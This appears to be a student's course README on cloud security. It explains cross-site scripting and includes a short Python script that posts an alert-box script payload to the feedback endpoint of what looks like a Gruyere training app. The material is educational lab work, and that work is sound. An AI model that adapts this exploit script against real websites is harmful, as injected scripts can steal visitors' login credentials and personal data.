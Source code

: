 # Cloud-Security-2023
create code that can automatically exploit its documented vulnerabilities.

**XSS Attack**-harmful because they can be used to steal sensitive information, like login credentials or personal data from users.
How to execute an XSS attack- the payload variable contains a script tag with malicious JavaScript code. Problem arises if the server doesn't correctly/properly sanitize or encode the feedback parameter when rendering it in an HTML response. Consequence- script modified on the client side (XSS attack)

**Python Code for Cross-Site Scripting**

import requests  
payload = "<script>alert('XSS Attack!');</script>" #Payload variable mentioned above- site of vulnerability 
document_id = "your-document-id"
url = f"http://gruyere-app.com/feedback?id={document_id}" #This is the target website whereby the document ID has been appended to reach specific endpoint
data = {"feedback": payload}  #key-value pair received by the server where the data is processed(ie value which the payload variable is processed)
response = requests.post(url, data=data)
print(response.text)
